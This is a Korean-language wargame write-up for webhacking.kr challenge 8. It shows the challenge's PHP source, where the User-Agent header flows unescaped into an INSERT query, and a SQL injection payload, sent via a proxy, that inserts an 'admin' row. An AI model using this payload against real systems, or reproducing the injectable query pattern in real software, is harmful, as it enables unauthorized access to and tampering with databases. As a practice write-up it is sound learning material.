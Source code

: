 ```yaml
---
title: "[webhacking.kr] 8번 문제 풀이[SQL]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - SQL
toc: true
toc_sticky: true
toc_label: "8번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 8번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제

## 문제 화면
![image](https://user-images.githubusercontent.com/33647663/150669805-ed40d507-aaab-427f-a3d4-a17790bde07b.png)


## 소스코드
 ```php
  <?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 8</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
</style>
</head>
<body>
<br><br>
<center>
<?php
$agent=trim(getenv("HTTP_USER_AGENT"));
$ip=$_SERVER['REMOTE_ADDR'];
if(preg_match("/from/i",$agent)){
  echo("<br>Access Denied!<br><br>");
  echo(htmlspecialchars($agent));
  exit();
}
$db = dbconnect();
$count_ck = mysqli_fetch_array(mysqli_query($db,"select count(id) from chall8"));
if($count_ck[0] >= 70){ mysqli_query($db,"delete from chall8"); }

$result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
$ck = mysqli_fetch_array($result);

if($ck){
  echo "hi <b>".htmlentities($ck[0])."</b><p>";
  if($ck[0]=="admin"){
    mysqli_query($db,"delete from chall8");
    solve(8);
  }
}

if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
}
?>
<a href=./?view_source=1>view-source</a>
</body>
</html>

 ```

# 풀이

## 문제 분석
  문제를 해결하기 위한 solve함수가 호출되는 부분은 다음과 같습니다.
  ```php
  $agent=trim(getenv("HTTP_USER_AGENT")); // 나의 패킷에서 USER_AGENT 값을 추출
  $ip=$_SERVER['REMOTE_ADDR']; // 나의 IP 추출
  if(preg_match("/from/i",$agent)){ //agent 에서 from 문자열 필터링
    echo("<br>Access Denied!<br><br>");
    echo(htmlspecialchars($agent));
    exit();
  }
  $db = dbconnect();

  $result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
  $ck = mysqli_fetch_array($result);
  // user_agent 값을 기준으로 id를 불러옴
  if($ck){
    echo "hi <b>".htmlentities($ck[0])."</b><p>";
    if($ck[0]=="admin"){
      mysqli_query($db,"delete from chall8");
      solve(8);
    }
  }
  // 해당 쿼리 결과로 id값이 'admin'이면 solve;

  if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
  }
  // 만약 쿼리 결과가 없다면 현재 내 user_agent,ip를 기준으로 'guest' 유저를 db에 저장한다.
  ```

  위 부분을 보니, 저의 user_agent 값을 기준으로 DB에서 쿼리를 했을 때 id가 'admin'이어야 합니다. 그리고 저의 user_agent 값이 insert 문으로 DB에 저장되기 때문에 이 부분을 우회하여 계정을 'guest'가 아닌 'admin'으로 저장해 보겠습니다.
  
  먼저 user_agent 값을 변조하기 위해서는 Burp Suite 같은 프록시 툴을 이용해서 패킷을 잡아야 합니다.

  아래 그림에서 보이는 부분이 아무런 변조를 하지 않았을 때 서버로 날아가는 저의 패킷 입니다.

  ![image](https://user-images.githubusercontent.com/33647663/150669956-689c1003-ca20-4d9a-9723-4894787aaa43.png)

  ```md
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
  ```
  기본 User-Agent 값은 위와 같으며 이 내용을 이용해서 insert 부분을 우회해 보겠습니다.

  먼저 위의 내용이 서버로 전달되면 서버에서는 다음 SQL문이 작동합니다.

  ```sql
  "insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')"
  ```

  위에서 $agent 부분을 다음과 같이 넣어주겠습니다.

  ```md
  1234','1','admin'),('5678
  ```
  $agent 부분을 위의 문자열을 대입해 보면 서버쪽에서 동작하는 sql 문은 다음과 같이 변조가 됩니다.
  ```sql
  "insert into chall8(agent,ip,id) values('1234','1','admin'),('5678','{$ip}','guest')"
  ```

  이를 이용해서 실제로 패킷을 변조해서 보내 보겠습니다.

  ![image](https://user-images.githubusercontent.com/33647663/150670144-578291ae-2450-49d5-8e3c-bd69b7f04df7.png)

  
  이제 서버로 User-Agent 값을 1234를 보내면 됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/150670228-c846e50b-6fd9-4545-b6a7-28ec6823a14b.png)

  그러면 문제가 풀립니다.

  ![image](https://user-images.githubusercontent.com/33647663/150670275-c7f13551-bbfa-4054-84d2-45eb731227bd.png)

